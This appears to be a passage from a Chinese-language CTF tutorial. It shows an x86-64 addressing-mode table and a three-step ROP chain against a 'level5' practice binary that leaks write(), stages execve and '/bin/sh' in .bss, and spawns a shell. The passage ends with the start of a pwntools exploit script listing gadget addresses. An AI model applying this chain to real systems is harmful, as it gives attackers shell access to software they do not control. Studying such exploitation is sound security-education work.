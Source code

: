 |Type	|Example syntax |Value used|
|---|---|---|
|Register	|%rbp	Contents of %rbp
|Immediate	|$0x4	0x4
|Memory	0x4	|Value stored at address
||symbol_name	|Value stored in global symbol_name
||symbol_name(%rip)	|%rip-relative addressing for global (see below)
||(%rax)	|Value stored at address in %rax
||0x4(%rax)	|Value stored at address %rax + 4
||(%rax,%rbx)	|Value stored at address %rax + %rbx
||(%rax,%rbx,4)	|Value stored at address %rax + %rbx*4
||0x18(%rax,%rbx,4)	|Value stored at address %rax + 0x18 + %rbx*4

# Exploit

现在开始，我们可以着手编写EXP了。鉴于python2即将停止支持，我们使用python3编写。
完整的攻击链如下：
1. 获得**write()**在内存中的的地址

溢出 -> ret to gadget_pop -> ret to gadget_call:write(stdout, write, 1) -> ret to main()

2.  向bss写入"/bin/sh"和execve()的地址

溢出 -> ret to gadget_pop -> ret to gadget_call:read(stdin, bss, 16) -> ret to main()

此时向*stdin*输入的内容为*execve()*的地址+字符串"/bin/sh\0"

3. 调用execve("/bin/sh")

溢出 -> ret to gadget_pop -> ret to gadget_call:execve(bssAddr+8) -> ret to dummy addresss

*execve*在bss段上。由于x64下地址长度为8字节，后面的"/bin/sh\0"地址是bssAddr+8

## Shellocde.py
代码中有详尽的注释，该解释的地方已经解释过啦！
```python
from pwn import *

p = process("./level5")

elf = ELF('level5')
libc = elf.libc
bssAddr = elf.bss()
mainAddr = elf.symbols['main']

gadMovToReg = 0x4011d0
#   4011d0:       4c 89 f2                mov    %r14,%rdx
#   4011d3:       4c 89 ee                mov    %r13,%rsi
#   4011d6:       44 89 e7                mov    %r12d,%edi
#   4011d9:       41 ff 14 df             callq  *(%r15,%rbx,8)
gadPopToReg = 0x4011ea
#   4011ea:       5b                      pop    %rbx
#   4011eb:       5d                      pop    %rbp
#   4011ec:       41 5c                   pop    %r12
#   4011ee:       41 5d                   pop    %r13
#   4011f0:       41 5e                   pop    %r14
#   4011f2:       41 5f                   pop    %r15
#   4011f4:       c3                      retq   
stackBalanceOffset = 56
```